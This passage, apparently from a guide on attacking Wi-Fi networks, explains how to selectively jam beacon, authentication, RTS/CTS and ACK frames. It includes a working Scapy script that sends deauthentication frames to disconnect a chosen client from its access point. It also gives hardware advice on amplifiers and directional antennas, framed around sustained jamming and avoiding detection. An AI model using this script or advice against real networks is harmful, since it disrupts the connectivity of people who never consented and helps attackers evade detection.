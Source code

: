 Such precision attacks demand specialized hardware with full-duplex capability or extremely fast TX/RX switching, processing latency under 5 microseconds, and exceptionally stable clock sources. The rewards for this complexity are significant, however, as selective jamming can be far more difficult to detect than continuous interference.

Certain frame types make particularly effective targets. Beacon frames, which announce a network's presence, can be jammed to prevent new clients from discovering networks. Authentication frames, if successfully targeted, can block new connections entirely. Request to Send/Clear to Send (RTS/CTS) frames control medium access in congested environments; disrupting them degrades throughput while creating difficult-to-diagnose connectivity issues. Perhaps most devastating is ACK frame jamming, which forces constant retransmissions and dramatically reduces effective bandwidth, though this technique requires the highest technical precision to execute.

* **Implementation with Scapy**:
     ```python
     #!/usr/bin/env python3
     from scapy.all import *
     import time
     
     def deauth_attack(target_mac, gateway_mac, iface="wlan0mon", count=10):
         # 802.11 frame
         # addr1: destination MAC
         # addr2: source MAC
         # addr3: Access Point MAC
         pkt = RadioTap() / \
               Dot11(type=0, subtype=12, addr1=target_mac,
                     addr2=gateway_mac, addr3=gateway_mac) / \
               Dot11Deauth(reason=7)
         
         print(f"Sending deauth to {target_mac}")
         sendp(pkt, iface=iface, count=count, inter=0.1, verbose=1)
     
     # Example usage
     target_client = "AA:BB:CC:DD:EE:FF"  # Client to deauthenticate
     access_point = "11:22:33:44:55:66"   # AP MAC address
     deauth_attack(target_client, access_point)
     ```
   
   - **Hardware Considerations**:
     * **Power Amplifier Requirements**:
       * Linear amplification is essential to maintain signal characteristics
       * Class A or AB amplifiers preferred over more efficient Class C/D/E
       * Heat dissipation is a critical design factor for sustained jamming
       * Commercial options: Mini-Circuits ZHL series, RFMD amplifiers
     
     * **Directional Antenna Advantages**:
       * Focuses jamming energy toward target while reducing collateral interference
       * Reduces transmit power requirements (more battery efficient)
       * Decreases probability of detection from non-target directions
       * Recommended types: Patch, Yagi, Parabolic grid antennas
     